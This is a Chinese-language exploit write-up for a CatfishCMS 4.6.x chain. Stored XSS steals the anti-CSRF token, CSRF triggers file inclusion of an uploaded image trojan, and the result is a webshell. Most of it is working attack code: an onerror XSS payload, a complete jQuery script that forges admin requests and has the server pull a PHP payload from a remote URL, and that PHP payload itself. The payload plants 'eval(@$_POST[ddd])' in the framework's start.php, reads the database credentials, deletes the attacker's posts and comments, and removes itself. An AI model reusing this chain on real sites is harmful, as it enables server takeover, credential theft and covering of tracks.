CatfishCMS 4.6.15 csrf getshell¶
一、漏洞简介¶
在测试的过程中发现更新版本的时候作者添加一个参数 verification 可能是用来防治csrf。嗯，不得不说，作者安全意识提高了，用来防治csrf这的却是一个好思路，但是对于我们可以执行xss来说，verification 就显的苍白无力了，因为我们可以先获取verification 然后在执行csrf 从而来绕过。
二、漏洞影响¶
CatfishCMS 4.6
三、复现过程¶
漏洞分析¶
文件：CatfishCMS-4.6.12\catfish\library\think\Template.php
函数：fetch()






嗯，说完了。Fetch方法最后都会编译文件以后通过PHP输出，所以如果我们可以在他编译之前写入恶意代码 那么就可以为所欲为。
复现¶
前台注册一个账户->注册一个图片马到网站中->评论处插入xss代码->等待无辜管理员登录网站->获取 verification(绕过检测)->管理员入口-页面管理-新建页面-csrf插入一条非法语句引起包含漏洞(用来包含前面的图片马)->包含漏洞执行代码->包含漏洞添加getshell_code.php文件写入恶意代码->包含漏洞-将框架文件start.php添加一句话木马-包含数据库配置文件-连接数据库->删除我们前面的评论->删除我们csrf创建的页面->邮件通知我们->getshell
CatfishCMS-4.6.12-xss.js
/*
需要插入的xss代码
<img src="#" alt="xss_csrf_getshll" onerror="var url = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/CatfishCMS-4.6.12-xss.js';xss_js = '<scr'+'ipt src='+url+'><\/sc'+'ript>';$('body').append(xss_js);">
*/
//不用动的
var articles = 'index.php/admin/Index/articles.html';//用来获取 verification 绕过检测
var newpage = 'index.php/admin/Index/newpage.html';//生成文章地址
var allpage = 'index.php/admin/Index/allpage.html';//获取文章链接
//需要改的
var url = 'http://0-sec.org';//你要日的站的域名
var directory = '/cms/CatfishCMS-4.6.12/'; //日的站的额外目录一般为空即可(站点设置二级目录时，此目录要填写)
var img_trojan_url = '../../../'+'data/uploads/20171201/2c8b7c7f1d49faeb5321ce0c9b1962af.jpg';//图片马的地址 修改 + 号后面的即可
var getshell_code = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/getshell_code.txt';//恶意代码远程包含的地址
$('body').append('<div id="csrf_verification" style="display:none;"></div>');
$('body').append('<div id="csrf_allpage" style="display:none;"></div>');
$.ajax({
url: url+directory+articles,
dataType: "json",
success: function(verification_content){
$('#csrf_verification').append(verification_content);
var verification = $('#verification').html();//用来绕过验证的
// alert(verification);
//csrf生成文章,引起文件包含漏洞
$.ajax({
type: "POST",
url: url+directory+newpage,
data: {
'biaoti':'xss_csrf_getshll',
'template':img_trojan_url,
'verification':verification,
'fabushijian':'2017-12-05 11:56:48'
},
success: function(){
//csrf获取shell链接
$.ajax({
type: "POST",
url: url+directory+allpage,
success: function(allpage_content){
$('#csrf_allpage').append(allpage_content);
var shell_id = $('#csrf_allpage .table-responsive .table-bordered tbody tr td .gouxuan').eq(0).val();
var shell_url = $('#csrf_allpage .table-responsive .table-bordered tbody tr td a').eq(0).attr('href');
var shell_content = '';
shell_content+= "$myfile = fopen('getshell_code.php', 'w');";
shell_content+= '$txt = '+'file_get_contents("'+getshell_code+'");';
shell_content+= 'fwrite($myfile, $txt);';
console.log(shell_content);
//执行shell 生成马子
$.ajax({
type: "POST",
url: url+shell_url,
dataType: "json",
data: {'ddd':shell_content},
success: function(data){
$.ajax({
type: "GET",
url: url+directory+'getshell_code.php',
dataType: "json",
// data: {'zzz':1}
});
},
error: function(){
$.ajax({
type: "GET",
url: url+directory+'getshell_code.php',
dataType: "json",
// data: {'zzz':1}
});
}
});
}
});
}
});
}
});


写好以后模拟管理员，进入后台




getshell_code
<?php
$start_content = file_get_contents('catfish/start.php').'eval(@$_POST[ddd]);';
$start = fopen('catfish/start.php', 'w');
fwrite($start, $start_content);
if( @$_GET[zzz]){
$config = require_once("application/database.php");
//分别对应的是 地址，端口号，连接的数据库，编码
$dsn = "mysql:host={$config['hostname']}; port={$config['hostport']}; dbname={$config['database']}; charset={$config['charset']}";
$user = $config['username'];
$psw = $config['password'];
$pdo = new PDO($dsn,$user,$psw);
$sql = "DELETE from catfish_posts WHERE post_title LIKE '%xss_csrf_getshll%'";
$sql_1 = "DELETE from catfish_comments WHERE content LIKE '%xss_csrf_getshll%'";
$pdo->query($sql);
$pdo->query($sql_1);
unlink('getshell_code.php');
}
?>

连接马子的操作，这个文件会在index.php中给引入所以直接
http://0-sec.org/index.php
POST
ddd = 你要执行的命令

